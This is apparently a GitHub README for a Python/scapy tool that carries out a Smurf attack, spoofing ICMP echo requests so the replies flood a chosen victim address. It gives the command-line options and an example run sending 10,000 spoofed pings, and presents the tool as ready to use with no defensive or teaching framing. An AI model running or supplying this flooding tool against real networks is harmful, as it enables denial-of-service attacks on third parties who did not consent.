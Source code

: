 # IP Spoofing - Smurf Attack

>> ICMP Echo attack  - flood the target with ping traffic

## Usage

```
$ python main.py -h
usage: smurf_attack.py [-h] -s Source -d Destination [-c Count] [-l Length] [-r Raw]

optional arguments:
  -h, --help            show this help message and exit
  -s Source, --src Source
                        choose valid ip address to attack
  -d Destination, --dst Destination
                        choose valid,alive ip address to supply the echo-responses
  -c Count, --count Count
                        specify how much ping requests to send[def=1000]
  -l Length, --length Length
                        specify which size the packet will be[def=74 when length is 32]
  -r Raw, --raw Raw     specify raw data to send over the ping

```

Example:

```
$ python main.py -s 10.11.12.13 -d 14.15.16.17 -c 10000 -l 200
```

## Requirements

- [scapy](https://pypi.org/project/scapy/)
- [argparse](https://pypi.org/project/argparse/)

Example using pip:

```
pip install -r requirements.txt
```

Tested with python 3.7, 3.8.
